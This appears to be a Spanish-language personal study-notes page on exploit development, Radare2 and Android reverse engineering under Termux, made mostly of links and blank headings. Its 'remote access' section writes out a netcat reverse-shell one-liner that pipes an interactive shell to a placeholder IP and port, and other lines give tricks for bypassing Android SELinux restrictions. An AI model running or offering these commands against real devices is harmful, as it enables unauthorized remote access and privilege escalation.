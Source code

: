 # Mis demonis en un solo lugar 


> [!WARNING]
> 


> [!NOTE]
> Mucho del contenido aca vine de  la comunidad de ``@ivam3`` y sus subcriptores 



# C++

- [AprenderC++](https://www.learncpp.com)
- [GestionDeMemoria]()
- [...](https://en.cppreference.com)

**Modulos y funciones**


> [!NOTE]
> La mayoría de los dispositivos Android funcionan con ARM 

# ROP 

# Assembly 

**Comnados**
 - ``as`` : 
 - ``ld`` : 
- [Intoducion al los comceptos basicos de  ensamblaje arm](https://azeria-labs.com/writing-arm-assembly-part-1/) 


# Desarollo de  exploit `ARM` 

 [1](https://fuzzysecurity.com/tutorials/expDev/1.html) 
 [2](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/) 

# [Radare2](https://book.rada.re/config/evars.html)

- **CLI**
    - `-d ` : 
- **Inter**
    - "iE"  : 
    - `bdi` : Punto de intrucsion
    - `pdda` : Comando para ver el ensamblado y el código fuente descompilado uno al lado del otro.
    - *Debug commands* 
        - `d `

**Plugings**

- `r2dec` : Descompilador 



# Android Ingenieria Inversa 



# Analisis binario 

**Comceptos basico**

- **Pila**

- **Registro**

- **Buffer** 
    - [Como funciona la memoria](http://progra.usm.cl/apunte/c/memoria.html) 




A partir de android 11 `selinux` implementó varias restricciones, la buena noticia es que muchas de ellas se pueden 'bypassear' sin necesidad de ser root ni haciendo uso de adb xD. El mismo restringe las llamadas al sistema



**Listar paquetes saltando protexion ** 

```sh
<<(pm list packages -3 --user 0 2>&1 < /dev/null )
``` 
```
PATH=$PREFIX/bin && /system/bin/pm list packages --user 0
```


- Desde un usuario con uid2000 se  puede torgar permiso  
```
am start --user 0 -a android.settings.action.MANAGE_OVERLAY_PERMISSION -d "package:com.termux.x11"
```

# Investigar 

- Si se logras ejecutar los binarios de ``/vendor/bin`` siendo usuario shell es posible escalar privilegios hasta el usuario ``system``. Mas informacion [aqui](https://t.me/Ivam3by_Cinderella/13/9867) 

# Pendientes 
---
*Aprender*
[](https://rtx.meta.security/exploitation/2024/06/03/Android-Zygote-injection.html)
--- 

**Rever shell**

[Ejemplo](https://t.me/Ivam3by_Cinderella/13/9377)

--- 

**Acseso remoto**

```
rlwrap /system/bin/toybox nc serveo.net 65000
```

```
tali -n0 -f $TMPDIR/xD|/bin/sh -i 2>&1| nc <IP> <port> 1>$TMPDIR/xD  
```

---

**Hacer funcional `qemu-i386`  


```sh 
⊨ qemu-i386 ~/ch1.bin                                    ~/p/v/_posts
qemu-i386: Could not open '/lib/ld-linux.so.2': No such file or directory
```

**Referencia**

https://tldp.org/HOWTO/Glibc2-HOWTO-5.html

---


**Telegram**
https://t.me/Ivam3by_Cinderella/19953

# Foros que me llamaron la atencion 
[bypassing-root-detection](https://medium.com/@aimardcr/bypassing-root-detection-the-universal-way-2625712172e5) 
[BypassSelinux](https://klecko.github.io/posts/selinux-bypasses/) 
[](https://nelenkov.blogspot.com/2015/06/password-storage-in-android-m.html?m=1)
*Binary*
[Buscar numeros magicos](https://www.garykessler.net/library/file_sigs.html)

{% if page.comments %}
<div id="disqus_thread"></div>
<script>
    (function() { // DON'T EDIT BELOW THIS LINE
    var d = document, s = d.createElement('script');
    s.src = 'https://blok-termux.disqus.com/embed.js';
    s.setAttribute('data-timestamp', +new Date());
    (d.head || d.body).appendChild(s);
    })();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>
{% endif %}



